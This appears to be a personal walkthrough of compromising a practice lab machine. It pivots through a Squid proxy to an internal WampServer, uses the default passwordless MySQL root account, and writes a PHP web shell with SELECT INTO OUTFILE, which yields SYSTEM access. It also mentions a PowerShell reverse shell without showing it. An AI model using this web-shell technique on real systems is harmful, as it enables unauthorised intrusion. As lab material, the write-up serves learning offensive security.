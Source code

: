 # Main

[Back to Table of Contents](../cysec)


This is an overview of my methods in rooting a machine from pg. I have purposefully left the names of all pg machines out in titles and replaced them with generic names to avoid any spoiling while still maintaining the opportunity to share my methods, skills, and journey. 

## Initial

### Port scans:
```
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack

```

After performing initial service enumeration on the target, it was discovered that only one TCP port was open. Navigating to this led to a page for 'squid proxy.'
Researching squid proxy led me to understand that it can act as a proxy between local services and the web. I found a python script made with the purpose of scanning the system via the proxy and discovered two open ports, one of them being a web server. 
I then used foxyproxy in firefox to create an http proxy with the target ip and squid proxy port and was able to access the internal webserver.

---

### Web - initial:

```
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack┌──(kali㉿kali)-[/scripts/spose]
└─$ python spose.py --proxy http://192.168.133.189:3128 --target 192.168.133.189     
Using proxy address http://192.168.133.189:3128
192.168.133.189 3306 seems OPEN 
192.168.133.189 8080 seems OPEN 
```

```
foxyproxy:
192.168.133.189 3128 http

http://192.168.133.189:8080/ --> wampserver
```
After navigating to the site, a configuration page was discovered. On this page, the default configuration for mysql was found to be root with no password.

Find location to create a backdoor -- installation directory found by navigating to 'create virtual hosts':
```
Apache Virtual Hosts C:/wamp/bin/apache/apache2.4.46/conf/extra/httpd-vhosts.conf

VirtualHost already defined:

    ServerName : localhost - Directory : C:/wamp/www


```
Add a new database, then create a table and query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\wamp\\www\\backdoor.php"

http://192.168.133.189:8080/backdoor.php?cmd=whoami

nt authority/sytstem

```

Using revshells -- powershell revshell #2, URL -encoded
Other:


```
PS C:\Users\Administrator\Desktop> type proof.txt && whoami && ipconfig
##HASH##
PS C:\Users\Administrator\Desktop> whoami
nt authority\system
PS C:\Users\Administrator\Desktop> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.133.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.133.254

```

